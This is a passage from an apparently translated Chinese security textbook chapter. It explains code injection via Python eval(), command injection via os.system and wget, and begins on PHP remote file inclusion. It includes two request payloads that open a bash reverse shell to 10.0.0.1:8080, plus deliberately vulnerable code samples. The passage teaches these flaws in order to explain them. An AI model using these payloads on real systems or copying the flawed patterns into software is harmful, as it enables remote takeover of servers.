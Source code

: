 结果，程序将执行`eval("__import__('os').system('ls')")`并返回系统命令`ls`的结果。由于`eval()`可以用来执行系统上的任意代码，如果你将未经处理的用户输入传入`eval()`函数，那么你就引入了一个代码注入漏洞到你的应用程序中。

攻击者还可以做更具破坏性的事情，像以下内容。此输入会导致应用程序调用 `os.system()` 并在端口 8080 上向 IP 10.0.0.1 发起反向 shell 连接：

```
GET /calculator?calc="__import__('os').system('bash -i >& /dev/tcp/10.0.0.1/8080 0>&1')"
Host: example.com
```

*反向 shell* 使得目标服务器与攻击者的机器进行通信，并建立一个远程可访问的连接，允许攻击者执行系统命令。

另一种代码注入的变体发生在用户输入直接与系统命令连接时。这也叫做*命令注入漏洞*。除了在 Web 应用程序中出现，命令注入在嵌入式 Web 应用程序中也非常普遍，因为它们依赖于 shell 命令和使用外壳命令执行的框架。

假设 *example.com* 还具有允许你下载远程文件并在网站上查看的功能。为了实现这个功能，应用程序使用系统命令 `wget` 来下载远程文件：

```
import os
def download(url): os.system("**wget** -O- {}".format(url))
display(download(user_input.url))
```

`wget` 命令是一个根据 URL 下载网页的工具，`-O-` 选项使得 `wget` 下载文件并将其显示在标准输出中。综合起来，这个程序接收用户输入的 URL，并将其传递给通过 `os.system()` 执行的 `wget` 命令。例如，如果提交以下请求，应用程序将下载 Google 首页的源代码并显示给你：

```
GET /download?url=google.com
Host: example.com
```

由于用户输入直接传递给系统命令，攻击者可以在不使用 Python 函数的情况下注入系统命令。这是因为在 Linux 命令行中，分号（`;`）字符用于分隔单个命令，因此攻击者可以通过在分号后提交任意命令，执行 `wget` 命令之后的任意命令。例如，以下输入会导致应用程序在端口 8080 上向 IP 10.0.0.1 发起反向 shell 连接：

```
GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
Host: example.com
```

### 文件包含

大多数编程语言都具有允许开发者*包含*外部文件以评估其中代码的功能。当开发者想将外部资产文件（如图片）集成到应用程序中，使用外部代码库，或者复用为不同目的编写的代码时，这个功能非常有用。

攻击者实现远程代码执行（RCE）的一种方式是让目标服务器包含包含恶意代码的文件。这个*文件包含漏洞*有两种子类型：远程文件包含和本地文件包含。

*远程文件包含*漏洞发生在应用程序允许从远程服务器包含任意文件时。这通常发生在应用程序动态地在其页面上包含外部文件和脚本，并且使用用户输入来确定包含文件的位置。

为了了解这个是如何工作的，我们来看看一个易受攻击的应用程序。以下 PHP 程序调用 PHP 的`include`函数，并使用用户提交的 HTTP GET 参数`page`的值。然后，`include`函数会包含并执行指定的文件：

```
<?php // Some PHP code $file = $_GET["page"]; include $file; // Some PHP code
?>
```

这段代码允许用户通过更改`page`参数来访问网站的不同页面。例如，要查看网站的首页和关于页面，用户可以访问*http://example.com/?page=index.php*和*http://example.com/?page=about.php*。

但是，如果应用程序没有限制用户通过`page`参数包含的文件，攻击者可以包含托管在他们服务器上的恶意 PHP 文件，并让目标服务器执行该文件。

在这种情况下，我们可以托管一个名为*malicious.php*的 PHP 页面，它会将 URL GET 参数`cmd`中的字符串作为系统命令执行。PHP 中的`system()`命令类似于 Python 中的`os.system()`。它们都会执行系统命令并显示输出。以下是我们恶意 PHP 文件的内容：
